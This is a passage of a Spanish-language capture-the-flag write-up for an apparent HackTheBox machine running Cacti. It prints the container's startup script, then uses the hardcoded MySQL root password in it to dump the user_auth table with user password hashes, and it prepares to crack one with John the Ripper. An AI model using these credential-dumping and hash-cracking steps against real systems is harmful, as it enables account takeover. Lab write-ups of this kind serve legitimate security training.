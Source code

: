 ```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Este script se ejecuta en el inicio del contenedor Docker y se basa en configurar y poner en marcha el servicio de monitoreo de red Cacti.

Primero, espera hasta que el servicio de base de datos (MySQL) esté disponible. 
Luego, comprueba si la base de datos de Cacti está vacía o no. Si está vacía, importa el archivo de respaldo de la base de datos (cacti.sql) y realiza configuraciones básicas.

Por lo que tenemos tanto el usuario como la contraseña de la base de datos... eso quiere decir que podemos conectarnos en busca de credenciales o algo que me ayude a salir del contenedor.

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"
```
De todas las tablas que existen en la base de datos usaré la tabla `user_auth`

Por lo que lo siguiente es listar el contenido de la tabla.

```bash
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	on	-1	-1	-1		0	0	663348655
3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1	0
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	on	-1	-1		on	0	0	2135691668
```

Y ahí encontramos el hash del usuario `marcus`, hash que intentaré craquear a continuación con John The Ripper.
